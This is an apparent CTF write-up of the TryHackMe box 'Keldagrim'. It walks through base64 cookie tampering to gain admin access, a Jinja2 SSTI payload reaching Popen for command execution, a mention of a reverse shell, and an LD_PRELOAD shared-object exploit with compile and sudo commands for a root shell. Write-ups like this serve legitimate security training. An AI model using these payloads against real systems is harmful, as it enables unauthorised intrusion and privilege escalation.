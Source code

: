  Box: Keldagrim — TryHackMe (Medium)

This box is rated medium, but it stands out for not relying on brute-force or guesswork. Instead, it rewards methodical enumeration, intelligent observation, and chaining multiple weaknesses. Let’s walk through how Keldagrim fell — step by step.
🧭 Reconnaissance

A basic nmap scan revealed:

22/tcp   open  ssh
80/tcp   open  http

The only noteworthy detail: the session cookie lacked the HttpOnly flag. So we browsed to the site and began exploring manually.

On the “Our Team” tab, we discovered two usernames: Jed and Jad. Always document potential usernames — I saved them in notes.txt.

On the "Buy Gold" page, there was an Admin option… but it was grayed out. Time to dig deeper.
🧪 Cookie Tampering & Access Control Bypass

Burp Suite intercepted the traffic, and the session cookie caught my eye — base64-encoded.

Z3Vlc3Q= → guest  
YWRtaW4= → admin

I modified the session cookie to admin, refreshed the page, and… boom — Admin interface unlocked! 🎯

We also noticed a new sales cookie. Decoding it revealed $2,165, matching what was shown on-screen. Odd, but not directly useful yet.

Then I spotted something interesting in the response headers:

Server: Werkzeug/1.0.1 Python/3.6.9

Seeing Werkzeug and Python screams Flask — and potential SSTI (Server-Side Template Injection).
🧠 Exploiting SSTI

To test SSTI, I submitted:

{{ 7*7 }}

The page returned 49. Confirmed: we had SSTI. Now for RCE.

By inspecting the Jinja2 object model, I located Popen (for executing shell commands) at index 401 in the list of object subclasses.

Here’s the payload that gave us command execution:

{{''.__class__.__mro__[1].__subclasses__()[401]('ls',shell=True,stdout=-1).communicate()}}

We used this to drop a reverse shell and got access to the box as a limited user. user.txt — ✔️
⚙️ Privilege Escalation (Root)

Running sudo -l revealed this key detail:

(env_keep+=LD_PRELOAD)

This opens the door for an LD_PRELOAD attack — allowing us to preload a malicious shared object to hijack execution.

Here’s the payload written in C:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}

We compiled it:

gcc -fPIC -shared -o /tmp/shell.so exploit.c -nostartfiles

Then triggered it:

sudo LD_PRELOAD=/tmp/shell.so ps

And just like that — 🧨 Root shell obtained!
🕳️ Bonus — HTML Injection

Running nikto flagged a potential HTML Injection. I tested the payload it suggested:

<font size=50>

And the font ballooned on the page. Confirmed: vulnerable to HTML Injection.

While not impactful in a single-user CTF box, in a real-world app this could lead to phishing — injecting malicious forms to harvest credentials from other users.
🧠 Final Thoughts

Keldagrim is a solid challenge that teaches real-world techniques:

    Chaining SSTI to RCE

    Smart use of base64 tampering

    Advanced privesc with LD_PRELOAD

No wordlists. No brute force. Just knowledge, observation, and creative exploitation.
